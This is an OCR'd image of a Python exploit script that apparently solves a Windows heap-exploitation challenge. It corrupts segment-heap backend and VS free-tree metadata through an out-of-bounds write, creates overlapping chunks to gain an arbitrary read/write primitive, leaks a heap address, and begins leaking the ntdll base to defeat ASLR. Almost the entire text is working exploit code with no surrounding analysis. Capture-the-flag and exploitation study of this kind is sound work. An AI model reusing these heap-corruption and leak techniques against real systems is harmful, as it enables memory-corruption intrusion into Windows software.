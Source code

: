 ```python

# Fourth backend block that isn't VS (STOP COALESCE)
allocate(p, 0, 0x9000)  # 3

# Add first backend block to free tree
destroy(p, 0)

print("[+] Heap setup before corruption")

# Use bug to extend first backend block free tree node size
overflow_offset = 0x5c058
key_offset = 0x40 + 0x18
overflow_index = int((key_offset - overflow_offset) / 8)
set_value(p, 2, overflow_index, "7639512330019012610")

# Add VS block to free tree
destroy(p, 2)

print("[+] Heap corrupted")

allocate(p, 0, 0x9000)       # 0 - plugs first block
allocate(p, 0, 0x9000-0x400) # 2 - plugs second block

# Overlap the VS with type 2 data for overwriting
allocate(p, 2, 0x20000)      # 4

# Reallocate the VS
# The overlap allocation above messed up the page range descriptor.
# We fix it up here too
allocate(p, 1, 0xDEAD) # 5
overflow_offset = 0x5c058
key_offset = 0xb80 + 0x18
overflow_index = int((key_offset - overflow_offset) / 8)
set_value(p, 5, overflow_index, "1442559242757210383")
destroy(p, 5)

# Our arbritrary read/write primitve
allocate(p, 3, 0x200)    # 5 - primitive

print("[+] Created overlapping chunks")

# Can now overwrite every byte in the VS using the type 2 data (idx 4).
# We have an arbritrary read and write using the type 3 data which is a string
# pointer (idx 5).

# Lets get a heap leak
allocate(p, 2, 0x3d40-0x10)   # 6 - align leak target since null terminated writes
allocate(p, 3, 0x20)          # 7 - pointer to leak
to_leak_offset = 0x60008      # We can just make the pointer point to itself
set_value(p, 4, to_leak_offset - t2_offset, p8(0x0a))
partial = get_value(p, 7)
leaked_string = u64(b'\x28\x00'+partial+b'\x00\x00')
print(f"[+] Leaked string address on heap: {hex(leaked_string)}")

# Now leak ntdll - only do it once for server cause this is slow
ntdll_base = 0
if is_server and not recalc_server_leaks:
    ntdll_base = 0x7ffd7c990000
else:
    # 1. First leak pointer to &HeapBase.SegmentListHead (first thing in segment)
    seg_list_ptr = leaked_string & 0xFFFFFFFFFFF00000
    seg_list = read_absolute(p, seg_list_ptr)
    print(f"[+] Seg list at {hex(seg_list_ptr)}: {hex(seg_list)}")
```